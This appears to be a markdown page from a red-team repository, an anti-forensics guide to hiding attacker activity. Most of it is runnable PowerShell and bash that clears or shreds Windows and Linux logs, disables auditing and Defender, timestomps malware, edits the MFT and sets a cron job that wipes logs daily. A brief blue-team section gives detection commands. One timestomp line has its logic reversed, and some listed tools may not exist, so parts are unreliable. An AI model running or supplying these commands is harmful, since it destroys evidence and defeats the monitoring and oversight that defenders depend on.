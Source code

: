 # Paw prints in the wind: Disappearing without a trace

*"The best operations never appear in the SIEM—only in the aftermath."*

## Log obliteration techniques

### Windows Systems

#### Event log manipulation

```powershell
# Nuclear Option (Clears all logs)
wevtutil el | Foreach-Object {wevtutil cl "$_"}

# Surgical Strikes (Security log only)
Clear-EventLog -LogName Security
```

#### Audit policy neutralization

```
:: Disable future logging
auditpol /clear /y
auditpol /set /category:"Object Access","Account Logon" /success:disable /failure:disable
```

#### USN Journal wiping (NTFS artefacts)

```powershell
fsutil usn deletejournal /D C:  # Destroys file change records
```

### Linux systems

```bash
# Multi-tool log sanitization
echo "" > /var/log/auth.log
journalctl --vacuum-time=1s  # Systemd logs
find /var/log -type f -exec shred -n 3 -u {} \;  # Physical destruction
```

## Timestomping & metadata warfare

### File Timestamp Forgery

```powershell
# Copy timestamps from legitimate system files (Windows)
(Get-Item legit.dll).LastWriteTime = (Get-Item malware.exe).LastWriteTime
```

```bash
# Linux timestamp laundering
touch -r /bin/bash ./malware.sh  # Inherits bash's timestamps
```

### $MFT manipulation (NTFS)

```
# Requires physical disk access
icacls C:\$MFT /grant Administrators:F  # Unlock MFT
python3 mft_editor.py --target C:\ --timedelta="-7d"  # Shift all timestamps
```

## Anti-forensic toolbox (2025 Edition)

| Tool	          | Purpose	                               | OpSec Risk                   |
|----------------|----------------------------------------|------------------------------|
| Slackercleaner | Multi-platform log wiping              | Moderate (known IOCs)        |
| Timestomp-NG	  | Nanosecond-precision timestamp forgery | Low                          |
| SysmonKiller	  | Disables Sysmon via driver unload      | High (requires admin)        |
| MemPurge	      | Wipes RAM artefacts pre-reboot         | Critical (must be last step) |

Chain tools with living-off-the-land binaries:

```powershell
# Disable Defender logging via LOLBin
Set-MpPreference -DisableRealtimeMonitoring $true -DisableIOAVProtection $true
```

## Real-World OpSec failure (2024 case study)

Operation "Midnight Sun" Failure Points:

* Left Prefetch files intact (C:\Windows\Prefetch\RMM.exe)
* Failed to clear Windows Error Reporting crashes (%ProgramData%\Microsoft\Windows\WER)
* RDP bitmap cache revealed attacker desktop (%LocalAppData%\Microsoft\Terminal Server Client\Cache)

Corrected 2025 Procedure:

```powershell
# Full artefact sterilization
Remove-Item -Path "$env:LOCALAPPDATA\Microsoft\Terminal Server Client\Cache\*" -Force
Cleanmgr /sagerun:6174  # Disk Cleanup silent mode
```

## Red team best practices

Pre-Operation:  Map all logging systems (SIEM, EDR, LAPS) and identify immutable logs (e.g., Azure Sentinel)

During Operation, use network-based log injection to corrupt SIEM feeds

```python
# Fake 404 errors to mask malicious traffic
requests.get("https://victim.com/login", headers={"X-Forwarded-For": "192.168.1.1"})
```

Post-Operation: Deploy counter-forensic sleepers:

```bash
# Linux cronjob to overwrite logs daily
(crontab -l 2>/dev/null; echo "0 3 * * * shred -n 1 /var/log/*.log") | crontab -
````

## Blue team countermeasures (Test traces)

```bash
# Hunt for timestamp anomalies (Linux)
find / -type f -newermt "2025-01-01" ! -newermt "2025-01-02" -exec ls -l {} \;

# Windows Event Log gaps
Get-WinEvent -LogName Security | Group-Object -Property Id | Where Count -lt 10
```

## 2025

In 2025, forensic teams hunt at the nanosecond level. Your timestomping best be measured in Planck time.

## Required tools

* [TimeSketch (For Testing Your Traces)](https://github.com/google/timesketch)

## Operational checklist

- ✅ Test all cleanup scripts in VM snapshots before deployment
- ✅ Identify immutable cloud logs (AWS CloudTrail, Azure Activity) early
- ✅ Leave false [flags](flag.md) as distraction

